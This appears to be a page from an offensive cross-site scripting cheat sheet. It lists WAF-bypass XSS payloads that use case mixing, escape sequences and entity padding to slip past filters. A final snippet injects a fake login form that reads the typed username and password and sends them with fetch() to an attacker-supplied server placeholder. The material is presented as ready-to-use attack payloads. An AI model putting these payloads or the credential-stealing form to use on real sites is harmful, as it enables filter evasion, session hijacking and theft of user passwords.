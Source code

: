 ### WAF bypass
```
<sCriPt>alert``</sCRipT>
<sCriPt>eval('alert\x280\x29');</sCRipT>
<sCriPt>setTimeout('alert\x280\x29',0);</sCRipT>
<sCriPt>Function('alert\x280\x29')();</sCRipT>
<sCriPt>window.location='javascript:alert(0)';</sCRipT>
<iNpUt &gt; id="x"onfocus="window['\a\l\ert']()" autofocus />
<iNpUt type=im&#x000000000000000000000000000000061;ge &gt; id="x"oNerRor="window['\a\l\ert']()" src />
<iNpUt %253e onfocus="&#x000000000000000000000000000000061;lert()" autofocus />
<iNpUt x="&quot; /> " id=""onfocus="window['\a\l\ert']()" autofocus/>
<iNpUt x="&#x22; /> " id=""onfocus="window['\a\l\ert']()" autofocus/> 
<iNpUt x='&#39; /> ' id=""onfocus="window['\a\l\ert']()" autofocus/>
<iNpUt /&#62; id=""onfocus="window['\a\l\ert']()" autofocus/>
<iMG src &gt; onerror="alert&#x000000028;&#x29;" />
<iMG src onload=%ff%00%ffAAA onerror=alert() />
<iMG onerror="top['loc\u{61}tion'] = 'javascript:alert\u{28})'" src />
<oBjECt data="javascript:window['\a\l\ert']()" />
```

### Fake authentication form sending credentials to remote server

    <input type="text" name="username" id="username" /><input type="password" name="password" id="password" /><script>function sleep(ms){return new Promise(r => setTimeout(r,ms));}sleep(3000).then(()=> {var user =document.getElementById('username').value;var pass = document.getElementById('password').value;var user_pass = user+"_"+pass;fetch("https://[YOUR_SERVER]?u="+user_pass);});</script>
